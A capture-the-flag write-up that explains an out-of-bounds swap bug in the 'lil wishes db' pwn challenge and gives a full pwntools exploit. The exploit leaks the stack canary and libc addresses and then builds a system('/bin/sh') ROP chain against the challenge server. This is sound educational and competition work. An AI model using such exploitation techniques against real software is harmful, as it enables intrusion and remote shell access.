

## XMAS CTF: lil wishes db [pwn]


#### My exploit for this one is really messy, and now that I'm writing this, I'm thinking that leaking the canary was unnecessary to solve the challenge. Here we have all protections set which may seem daunting at first but becomes pretty straightforward when we realize that we have an arbitrary out-of-bounds access when we supply a negative value to the swap_id function. 

#### With this arbitrary write, we can, well write, to addresses past the stack buffer and even past the stack canary; allowing us to access/overwrite the return address even when there is a canary present. We do need to take note of an additional operation tho, basically the indexes that we provide for the swap algorithm gets recalculated using the following formula: `index & 0xffff`.

#### This affects what index (offset in the stack) we access or write to. For example, in order to leak the canary which is at array + 72 (offset 9 on the stack), we need to calculate the index we provide such that `index & 0xffff == 9` and do this for the other indexes as well. Using this, we can proceed to leak a libc address and perform a system('/bin/sh') ropchain to get a shell. 

```python
from pwn import *

#:
#p = process('./chall')
binary = ELF('./chall', checksec = False)
p = remote("challs.xmas.htsp.ro", 2002)
breakpoints = ['brva 0x84a']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('Option: \n'))

#:
def print_db():

	p.sendline('2')
	print(p.recvuntil('Option: \n'))

def insert_id(index, value):

	p.sendline('3')
	p.sendline(str(index))
	p.sendline(str(value))
	print(p.recvuntil('Option: \n'))

def swap_id(id1, id2):

	p.sendline('1')
	p.sendline(str(id1))
	p.sendline(str(id2))
	print(p.recvuntil('Option: \n'))

insert_id(0, '666') #: CANARY BEFORE RETURN ADDR
insert_id(1, '100') #: 
swap_id(-65527, 0) #: ~0xfff6 & 0xffff ==> 9, access out of bounds index; leaks canary
swap_id(~0xfff0, 1) #: leaks main

#: GET THEM LEAKS BEBE
p.sendline('2')
db_leaks = p.recvuntil('Choose:').split()
canary = int(db_leaks[2])
main_addr = int(db_leaks[5])
func_base = main_addr & ~0xfff

print('[*] canary_leak: ' + hex(canary))
print('[*] main_leak: ' + hex(main_addr))
print('[*] func_base: ' + hex(func_base))
print(p.recvuntil('Option: \n'))

#: MAKE SURE TO REPLACE CANARY BEFORE OVERWRITING RET ADDR
insert_id(3, int(canary))
swap_id(~0xfff5, 3) #: RETURN THE CANARY

#: INITIAL ROP CHAIN
insert_id(4, func_base + 0xbb3) #: POP RDI; RET
swap_id(~0xfff4, 4) #: RET ADDRESS
insert_id(5, func_base + (binary.got['setvbuf'] & 0xf0ffff))
swap_id(~0xfff3, 5) #: ADD SETVBUF GOT TO STACK
insert_id(6, func_base + 0x6d0) #: PUTS OFFSET
swap_id(~0xfff2, 6)
insert_id(7, main_addr)
swap_id(~0xfff1, 7) #: RETURN TO MAIN
p.sendline('4') #: EXIT TO RETURN

#: LEAK LIBC ADDRESS
print(p.recvuntil('Christmas!\n'))
setvbuf_leak = u64(p.recvuntil('database').split()[0].ljust(8, '\x00'))
print('[*] setvbuf_leak: ' + hex(setvbuf_leak))
print(p.recvuntil('Option: \n'))

#: SETUP LIBC
libc = ELF('./libc.so.6', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
bin_sh = libc_base + libc.search('/bin/sh').next()
system = libc_base + libc.symbols['system']
print('[*] libc_base: ' + hex(libc_base))
print('[*] bin_sh: ' + hex(bin_sh))
print('[*] system: ' + hex(system))

#: FINAL PAYLOAD, I'M NOT SURE WHY I NEED TO REPEAT ADDING THE system(/bin/sh) CHAIN
insert_id(0, int(canary))
swap_id(~0xfff5, 0)
insert_id(1, func_base + 0xbb3)
swap_id(~0xfff4, 1)
insert_id(2, libc_base + libc.search('/bin/sh').next())
swap_id(~0xfff3, 2)
insert_id(3, libc_base + libc.symbols['system'])
swap_id(~0xfff2, 3)
insert_id(4, func_base + 0xbb3)
swap_id(~0xfff1, 4)
insert_id(5, libc_base + libc.search('/bin/sh').next())
swap_id(~0xfff0, 5)
insert_id(6, libc_base + libc.symbols['system'])
swap_id(~0xffef, 6)

p.sendline('4') #: EXIT TO RETURN
p.interactive()
```

